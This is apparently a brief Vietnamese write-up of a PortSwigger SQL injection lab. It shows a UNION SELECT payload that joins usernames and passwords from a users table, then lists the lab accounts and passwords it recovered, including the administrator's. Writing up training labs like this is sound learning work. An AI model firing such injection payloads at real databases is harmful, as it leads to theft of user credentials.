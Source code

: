  ![image](https://github.com/Mtuwn/Portswigger/assets/100981255/2714188d-cc54-4274-88f4-8eb7f982a532)

Ta thấy ở đây số cột được trả về là 1, từ đó ta sẽ tiến hành truy vấn username và password từ cột đó bằng câu lệnh

`UNION SELECT username||'#'||password from users`

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/c3ab5a2a-7fac-4753-a87c-524384d23669)

Ta tìm được các username và password lần lượt là: 
 + username: wiener password: irntf3qcpqgfxf4vedso
 + username: administrator password: fm6ib02c2ojdqdji6xff
 + username: carlos password: t4hjnu7a2qcdgncqfpf4

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/0ed23624-ceea-407d-aa49-4e5084dfd524)

Như vậy bài lab đã được giải quyết

  
